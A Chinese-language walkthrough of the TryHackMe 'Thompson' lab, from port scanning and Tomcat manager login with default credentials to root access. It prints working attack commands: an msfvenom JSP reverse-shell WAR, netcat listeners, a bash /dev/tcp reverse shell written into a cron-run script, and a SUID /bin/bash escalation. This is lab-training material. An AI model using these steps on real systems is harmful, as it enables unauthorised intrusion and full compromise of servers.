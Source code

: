## 概述

來源: tryhackme
題目: Thompson
難度: easy
網址: https://tryhackme.com/room/bsidesgtthompson

## 掃描 port

```!=
nmap -sC -sV. -v {target_ip}
```

```!=
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 fc:05:24:81:98:7e:b8:db:05:92:a6:e7:8e:b0:21:11 (RSA)
|   256 60:c8:40:ab:b0:09:84:3d:46:64:61:13:fa:bc:1f:be (ECDSA)
|_  256 b5:52:7e:9c:01:9b:98:0c:73:59:20:35:ee:23:f1:a5 (ED25519)
8009/tcp open  ajp13   Apache Jserv (Protocol v1.3)
|_ajp-methods: Failed to get a valid response for the OPTION request
8080/tcp open  http    Apache Tomcat 8.5.5
|_http-title: Apache Tomcat/8.5.5
|_http-favicon: Apache Tomcat
| http-methods:
|_  Supported Methods: GET HEAD POST
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### 掃描可用路徑

```!=
┌──(kali㉿kali)-[~]
└─$ gobuster dir -u http://10.201.43.69:8080/ -w /usr/share/seclists/Discovery/Web-Content/common.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.201.43.69:8080/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/docs                 (Status: 302) [Size: 0] [--> /docs/]
/examples             (Status: 302) [Size: 0] [--> /examples/]
/favicon.ico          (Status: 200) [Size: 21630]
/host-manager         (Status: 302) [Size: 0] [--> /host-manager/]
/manager              (Status: 302) [Size: 0] [--> /manager/]
Progress: 4746 / 4747 (99.98%)
===============================================================
Finished
===============================================================
```

## 登入 tomcat manager

發現`8080`port 是 tomcat
且`/manager`登入失敗後跳出帳號密碼資訊

```
http://target_id:8080/manager/
```

![image](https://hackmd.io/_uploads/H10hDImRel.png)
透過`tomcat:s3cret`
登入成功

## .war 取得 shell

發現可上傳`.war`檔案
嘗試取得 shell
![image](https://hackmd.io/_uploads/HJYMu8QCex.png)
先製作`shell.war`

```!=
└─$ msfvenom -p java/jsp_shell_reverse_tcp LHOST=local_ip LPORT=666 -f war -o shell.war
Payload size: 1094 bytes
Final size of war file: 1094 bytes
Saved as: shell.war
```

將`shell.war`上傳後
![image](https://hackmd.io/_uploads/ByuCOL7Ael.png)

監聽 666

```!=
nc -nvlp 666
```

造訪頁面

```!=
http://10.201.68.84:8080/shell/
```

shell get

```!=
└─$ nc -nvlp 666
listening on [any] 666 ...
connect to [10.8.68.234] from (UNKNOWN) [10.201.68.84] 36576
id
uid=1001(tomcat) gid=1001(tomcat) groups=1001(tomcat)
```

### 取得 user.txt

穩定 shell

```!=
python3 -c 'import pty;pty.spawn("/bin/bash")'
tomcat@ubuntu:/$
```

```!=
tomcat@ubuntu:/home/jack$ cat user.txt
cat user.txt
39...bf
```

## 提權 1

發現`id.sh`好像能執行 root 權限

```!=
tomcat@ubuntu:/home/jack$ ls -l
ls -l
total 12
-rwxrwxrwx 1 jack jack 26 Aug 14  2019 id.sh
-rw-r--r-- 1 root root 39 Oct 19 23:41 test.txt
-rw-rw-r-- 1 jack jack 33 Aug 14  2019 user.txt
tomcat@ubuntu:/home/jack$ cat id.sh
cat id.sh
#!/bin/bash
id > test.txt
tomcat@ubuntu:/home/jack$ cat test.txt
cat test.txt
uid=0(root) gid=0(root) groups=0(root)
```

而且我們也可以修改`id.sh`
嘗試取得 root shell

```!=
echo 'bash -i >& /dev/tcp/local_ip/6666 0>&1' > id.sh
```

監聽 6666

```!=
┌──(kali㉿kali)-[~]
└─$ nc -nvlp 6666
listening on [any] 6666 ...
```

等待 1~5 分鐘系統自動觸發`id.sh`
取得 root shell

```!=
┌──(kali㉿kali)-[~]
└─$ nc -nvlp 6666
listening on [any] 6666 ...
id
connect to [10.8.68.234] from (UNKNOWN) [10.201.68.84] 35730
bash: cannot set terminal process group (919): Inappropriate ioctl for device
bash: no job control in this shell
root@ubuntu:/home/jack# id
uid=0(root) gid=0(root) groups=0(root)
```

取得`root.txt`

```!=
root@ubuntu:/home/jack# cd ~
cd ~
root@ubuntu:~# ls
ls
root.txt
root@ubuntu:~# cat root.txt
cat root.txt
d8...3a
```

## 提權 2

確認`/bin/bash`權限

```!=
tomcat@ubuntu:/home/jack$ ls -l /bin/bash
ls -l /bin/bash
-rwxr-xr-x 1 root root 1037528 Jul 12  2019 /bin/bash
```

發現檔案擁有者是 root
利用`id.sh`修改`/bin/bash`權限
新增`suid`權限以取得 root 權限

```!=
tomcat@ubuntu:/home/jack$ echo 'chmod +s /bin/bash' > id.sh
echo 'chmod +s /bin/bash' > id.sh
tomcat@ubuntu:/home/jack$ cat id.sh
cat id.sh
chmod +s /bin/bash
```

等待系統自動執行`id.sh`
確定`/bin/bash`權限有`s`

```!=
tomcat@ubuntu:/home/jack$ ls -l /bin/bash
ls -l /bin/bash
-rwsr-sr-x 1 root root 1037528 Jul 12  2019 /bin/bash
```

使用 root 執行 bash

```!=
tomcat@ubuntu:/home/jack$ /bin/bash -p
/bin/bash -p
bash-4.3# id
id
uid=1001(tomcat) gid=1001(tomcat) euid=0(root) egid=0(root) groups=0(root),1001(tomcat)
```

> `/bin/bash -p`  
> -p = privileged mode（特權模式）
>
> 不加 -p：bash 會自動降低權限（安全機制）
> 加 -p：bash 保留 SUID 權限，讓你真的以 root 執行

取得`root.txt`

```!=
bash-4.3# cd /root
cd /root
bash-4.3# cat root.txt
cat root.txt
d8...3a
```

補充一下
如果沒有`s`權限`-p`沒功用

```!=
tomcat@ubuntu:/$ ls -l /bin/bash
ls -l /bin/bash
-rwxr-xr-x 1 root root 1037528 Jul 12  2019 /bin/bash
tomcat@ubuntu:/$ /bin/bash -p
/bin/bash -p
tomcat@ubuntu:/$ id
id
uid=1001(tomcat) gid=1001(tomcat) groups=1001(tomcat)
tomcat@ubuntu:/$
```

## 不提權直接拿 root.txt

嘗試直接把`root.txt`複製出來

```!=
tomcat@ubuntu:/home/jack$ echo "cp /root/root.txt /home/jack/root.txt" > id.sh
```

等待系統執行`id.sh`
成功取得`root.txt`

```!=
tomcat@ubuntu:/home/jack$ ls
ls
id.sh  test.txt  user.txt
tomcat@ubuntu:/home/jack$ ls
ls
id.sh  root.txt  test.txt  user.txt
tomcat@ubuntu:/home/jack$ cat root.txt
cat root.txt
d8...3a
```
